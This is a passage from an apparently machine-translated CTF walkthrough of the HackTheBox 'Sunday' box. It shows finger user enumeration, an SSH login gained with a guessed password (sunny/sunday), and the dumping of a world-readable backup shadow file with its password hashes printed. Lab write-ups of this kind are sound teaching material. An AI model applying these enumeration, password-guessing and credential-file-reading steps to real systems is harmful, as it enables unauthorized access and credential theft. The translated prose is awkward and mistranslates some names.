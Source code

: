     miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
    sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..
    sys@10.10.10.76: sys             ???                         < .  .  .  . >..
    zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
    ######## Scan completed at Thu Sep 27 17:44:39 2018 #########
    14 results.
    
    10163 queries in 337 seconds (30.2 queries / sec)
    

那里有一些垃圾，但有两个有趣的用户名：

    sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..
    

现在，我们可以比较手指的结果，找到一个存在的名字和一个不存在的名字：

    root@kali:~/hackthebox/sunday-10.10.10.76# finger 0xdf@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    0xdf                  ???
    root@kali:~/hackthebox/sunday-10.10.10.76# finger sunny@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    sunny    sunny                 pts/2            Fri 11:06  10.10.14.5
    

## 用户外壳 - SSH 阳光明媚

使用两个已知帐户和ssh，值得猜测一些密码。我总是尝试管理员，根，框名称以及应用程序的任何默认值。事实证明，阳光明媚/周日有效：

    root@kali:~/hackthebox/sunday-10.10.10.76# ssh -p 22022 sunny@10.10.10.76
    Password:
    Last login: Thu May  3 15:25:35 2018 from 10.10.14.12
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sunny@sunday:~$ pwd
    /export/home/sunny
    sunny@sunday:~$ id
    uid=65535(sunny) gid=1(other) groups=1(other)
    

## 私密性：阳光灿烂

### 查找备份影子

里面有一个文件的副本，可以全域读取：`/backup``shadow`

    sunny@sunday:/backup$ ls -l
    total 2
    -r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
    -rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup
    
    sunny@sunday:/backup$ cat shadow.backup
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    